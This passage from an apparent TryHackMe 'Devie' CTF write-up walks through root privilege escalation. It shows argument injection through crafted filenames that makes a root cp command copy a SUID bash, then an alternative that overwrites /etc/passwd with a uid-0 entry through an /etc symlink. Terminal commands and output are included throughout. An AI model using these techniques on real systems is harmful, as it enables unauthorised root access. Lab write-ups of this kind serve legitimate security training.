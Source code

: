 To make it understandable, we could look at how the `cp` command looks if we construct it as it would be executed:
```bash
cp bash report1 report2 report3 --preserve=mode /home/gordon/backups/
```

After waiting for a minute, we can go into the `backups` directory and execute `bash` which will spawn a root shell:

```bash
gordon@devie:~/backups$ ls -lah
total 1.2M
drwxrwx--- 2 gordon gordon 4.0K Apr  4 09:44 .
drwxr-xr-x 4 gordon gordon 4.0K Aug  2  2022 ..
-rwsr-xr-x 1 root   root   1.2M Apr  4 09:47 bash
-rw-r--r-- 1 root   root     57 Apr  4 11:29 report1
-rw-r--r-- 1 root   root     72 Apr  4 11:29 report2
-rw-r--r-- 1 root   root    100 Apr  4 11:29 report3
gordon@devie:~/backups$ ./bash -p
$ whoami
root
$ cat /root/root.txt
THM{**REDACTED**}
```

#### Alternative solution
In another [write-up](https://medium.com/@herve.costil/try-hack-me-writeup-devie-4188e768afd0), an alternative solution had been documented. They made a copy of `/etc/passwd` in a newly made `reports` directory and then change `uid` and `gid` to `0` which is root.

From:

>gordon:x:1001:1001::/home/gordon:/bin/bash

To:

>gordon:x:0:0::/home/gordon:/bin/bash

They initially removed the `backups` folder and added a [symlink](https://en.wikipedia.org/wiki/Symbolic_link) to `/etc`:
```bash
ln -s /etc backups
```

When the backup script ran as root, the original `/etc/passwd` file gets overwritten by the modified one which is stored in `reports/passwd`.

```
gordon@devie:/home/gordon$ mv reports/ reports.bak/
gordon@devie:/home/gordon$ mv backups/ backups.bak/
gordon@devie:/home/gordon$ mkdir reports
gordon@devie:/home/gordon$ cp /etc/passwd reports
gordon@devie:/home/gordon$ vi reports/passwd 
gordon@devie:/home/gordon$ ln -s /etc/ backups
```

When re-authenticating as the gordon user, the gordon user now has root permissions:

```bash
gordon@devie:/home/gordon$ su - gordon
Password: 
root@devie:~$ whoami
root
```